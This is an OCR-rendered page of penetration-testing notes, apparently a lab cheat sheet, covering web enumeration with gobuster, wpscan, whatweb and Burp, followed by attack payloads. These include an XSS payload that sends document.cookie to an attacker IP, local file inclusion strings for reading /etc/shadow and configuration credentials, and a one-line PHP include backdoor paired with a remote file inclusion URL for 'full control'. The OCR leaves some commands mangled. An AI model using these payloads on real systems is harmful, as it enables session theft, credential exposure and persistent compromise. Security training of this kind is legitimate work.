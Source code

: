 Directories

> $ gobuster dir -u [https://10.11.1.35](https://10.11.1.35) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 50 -k -o gobuster

Word Press

> $ wpscan --url [http://10.11.1.251/wp](http://10.11.1.251/wp)

## MANUAL HTTP SCANS

Check the source code

Technologies used

> $whatweb &gt; $ip:80 --color=never --log-brief="whattheweb.txt"

curl -s \[http:// &gt; $ip/robots.txt\]\(http:// &gt; $ip/robots.txt\)

Burp

> $ get params  
> $ post params  
> $ cookies  
> $ user agents  
> $ referrers  
> $ all the headers  
> $ change get requests to posts  
> $ take note of all error codes  
> $ fuzz parameter values, and names, etc.

Things to be on look for:

> $ Default credentials for software  
> $ SQL-injectable GET/POST params  
> $ XSS  
> Test  
> $ &lt;script&gt; alert\("Hello! I am an alert box!!"\);&lt;/script&gt;  
> $ &lt;iframe SRC="http:10.11.0.106/xss\_test.html" height = "0" width ="0"&gt;&lt;/iframe&gt;  
> Exploit  
> $ &lt;script&gt;new Image\(\).src="[http://10.11.0.106/bogus.php?output=](http://10.11.0.106/bogus.php?output=)"+document.cookie;&lt;/script&gt;  
> $ LFI/RFI through ?page=foo type params  
> LFI:  
> $ /etc/passwd \| /etc/shadow insta-win  
> $ /var/www/html/config.php or similar paths to get SQL etc creds  
> $ ?page=php://filter/convert.base64-encode/resource=../config.php  
> $ ../../../../../boot.ini to find out windows version  
> RFI:  
> $ Have your PHP/cgi downloader ready  
> $ &lt;?php include \_GET\\['inc'\\]; ?&gt; simplest backdoor to keep it dynamic without anything messing your output &gt; $ Then you can just [http://IP/inc.php?inc=http://](http://IP/inc.php?inc=http://) &gt; $YOURIP/bg.php and have full control with minimal footprint on target machine $ get phpinfo\(\)

HTTPS
